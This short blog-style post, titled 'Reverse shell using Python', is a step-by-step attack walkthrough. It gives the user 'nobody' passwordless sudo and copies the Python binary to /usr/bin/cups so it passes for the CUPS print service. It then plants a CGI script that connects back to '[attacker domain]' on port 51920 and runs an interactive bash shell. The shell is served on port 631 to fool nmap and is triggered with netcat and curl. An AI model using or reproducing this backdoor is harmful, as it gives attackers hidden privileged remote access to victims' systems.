 ```yaml
---
layout: post
title:  "Reverse shell using Python"
categories: reverse_shell
summary: Create reverse shell with Python
---
```


{% include instructions.md %}

### {{page.title}}

Python reverse shell and fake it to look like CUPS
Give a sudo rights to user nobody without need to give a password
```shell
# nano /etc/sudoers.d/nobody
nobody ALL=(ALL) NOPASSWD:ALL
```

Fake Python to look like CUPS, create a Python script and start a Python server
```shell
# python -V
```

Python 2.7.12
```shell
# cp /usr/bin/python /usr/bin/cups
# mkdir -p /var/www/cgi-bin
# nano /var/www/cgi-bin/index.py

#! /usr/bin/cups  
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("[attacker domain]",51920));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);

# chmod a+x /var/www/cgi-bin/index.py
# cd /var/www/
# /usr/bin/cups -m CGIHTTPServer 631
```

If you would NMAP victim’s computer with default options it would look like ipp(CUPS) service is running
```shell
# nmap -p 631 [victim ip address]
PORT    STATE SERVICE
631/tcp open  ipp
In attacker’s computer listen 51920 port using Netcat and send HTTP request to malicious site

# nc -l -p 51920
# curl 'http://[victim ip address]:631/cgi-bin/index.py'
```